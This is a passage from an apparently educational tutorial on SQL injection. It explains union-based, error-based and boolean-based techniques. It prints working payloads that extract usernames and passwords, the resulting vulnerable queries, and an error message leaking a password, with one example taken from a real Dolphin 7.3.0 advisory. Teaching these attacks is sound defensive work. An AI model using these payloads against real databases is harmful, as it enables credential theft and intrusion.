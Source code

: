 If the attacker enters a user input such as this:
```SQL
soap' UNION SELECT username,password,NULL FROM user_table;-- -
```

This input would create a valid SQL statement that grabs information for “soap” but UNIONS all the usernames and passwords of the users!
```SQL
SELECT product_name, product_cost, product_description FROM
product_table WHERE product_name = 'soap' UNION SELECT username,password,NULL FROM user_table;-- -';
```

Notice the strategic placement of the ' character that allows the attacker to insert SQL syntax and extend the SQL query!

## Error-Based Injections
In an error-based injection, an attacker writes a SQL query to force the application to return an error message with sensitive data.

Let’s take a look at the example below from an [actual vulnerability](https://packetstormsecurity.com/files/138790/Dolphin-7.3.0-SQL-Injection.html). In this example, the attacker’s input causes an error that spits out the password.
```SQL
asdf' UNION select 1, exp(~(select*from(SELECT Password FROM profiles WHERE ID=1)x)); -- -
```

## SQL query:
```SQL
SELECT user_id FROM users WHERE username='asdf' UNION select 1, exp(~(select*from(SELECT Password FROM profiles WHERE ID=1)x)); -- -
```

SQL completes that inside statement getting the password for the profile ID 1, but errors on the value type that should be returned. This is the error that accidentally gives away the password!
```SQL
Database access error. Description: DOUBLE value is out of range in 'exp(~((select 'SUP3r_S3cur3_P@a55w0rd!' from dual)))'<?xml version='1.0' encoding='UTF-8'?><ray><result value="Error saving setting." status="failed" /></ray>
```

## Boolean-Based Injections
Boolean-based injections involve SQL statements that can confirm TRUE/FALSE questions about the database. When using this method, the attacker take note of the difference in the application’s response (changes in HTML, HTTP response code, or other web session data) when the result of their question is true or false.

Suppose a website has a search box that will return the username and email of a specific user ID. The SQL query below is used:
```SQL
SELECT username, email FROM users WHERE id = '[USER INPUT]';
```

In a normal search for id 1 , the website will give back the username admin and email admin@site.com and display everything as normal.
